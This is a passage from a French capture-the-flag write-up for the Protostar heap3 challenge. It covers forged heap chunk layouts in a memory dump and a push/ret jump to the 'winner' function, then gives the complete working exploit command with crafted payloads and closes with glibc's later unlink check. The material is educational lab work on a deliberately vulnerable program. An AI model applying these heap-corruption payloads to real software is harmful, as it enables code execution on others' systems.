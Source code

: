 ```
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x00000000      0x41414141      0x41414141      0x41414141 <- ici le 41 permet d'indiquer que le chunk du dessous est utilisé, on n'a pas besoin de mentir sur le reste
0x804c040:      0xffffffe0      0xfffffff0      0x41414141      0x41414141 <- chunk "suivant" de taille -16 qui ne sera pas fusionné, notez que malloc a modifié le bit de poids faible
0x804c050:      0xfffffff0      0xfffffff0      0x43434343      0x43434343 <- le chunk qui a été libéré
0x804c060:      0x43434343      0xffffffe1      0x0804b194      0x0804b194 <- le chunk "précédent" qui a amené à notre write-what-where
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
```

Le plus important dans tout ça c'est que cette fois pas de segfault mais un sigtrap : notre instruction `0xCC` (`int3`) a bien été exécutée.

Dernier point génant : notre shellcode va donc commencer à `0x804c00c` mais `malloc` écrase un DWORD 8 octets plus loin...

Si on avait un shellcode un peu long il faudrait qu'il fasse un `jmp` par dessus les 4 octets pour reprendre son exécution après mais ici on a seulement besoin de faire un `call winner`.

Malheureusement les instructions `call` et `jmp` sont relatives (l'opcode a besoin d'un offset). Pour s'éviter des calculs compliqués on peut simplement faire :

```nasm
push   0x8048864
ret
```

Ce qui revient à sauter sur `winner` :

```
user@protostar:/opt/protostar/bin$ ./heap3 `python -c 'print "AAAA\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "A"*16 + "\xf1\xff\xff\xff\xf1\xff\xff\xff" + "A" * 8 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1674238714
```

Cette fois c'est la bonne !

Cette faille unlink a été patchée de cette manière :

```c
#define unlink(AV, P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);
    else {
        FD->bk = BK;
        BK->fd = FD;
```

Donc avant d'écraser les données `malloc` vérifie que la liste doublement chainée est dans un état logique. Si ce n'est pas le cas on obtient un message d'erreur comme celui obtenu plus tôt.
